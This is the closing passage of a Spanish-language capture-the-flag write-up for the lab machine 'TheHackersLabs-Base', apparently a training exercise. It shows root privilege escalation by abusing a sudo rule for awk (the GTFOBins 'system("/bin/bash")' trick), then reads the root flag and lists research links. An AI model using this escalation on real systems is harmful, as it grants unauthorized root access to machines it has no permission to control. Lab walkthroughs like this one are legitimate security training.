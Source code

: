 Encontraremos una forma de escalar privilegios en la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/awk/" target="_blank">GTFOBins: awk</a>

Utilizaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-base/Captura20.png">
</p>

Ejecutémoslo:
```bash
flate@TheHackersLabs-Base:~$ sudo awk 'BEGIN {system("/bin/bash")}'
root@TheHackersLabs-Base:/home/flate# whoami
root
```
Somos **Root**.

Busquemos la última flag:
```bash
root@TheHackersLabs-Base:/home/flate# cd /root
root@TheHackersLabs-Base:~# ls
root.txt
root@TheHackersLabs-Base:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/flatpressblog/flatpress/issues/152
* https://medium.com/@evyeveline1/im-in-the-adm-group-can-i-escalate-yes-eventually-9475b968b97a
* https://gtfobins.github.io/gtfobins/awk/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
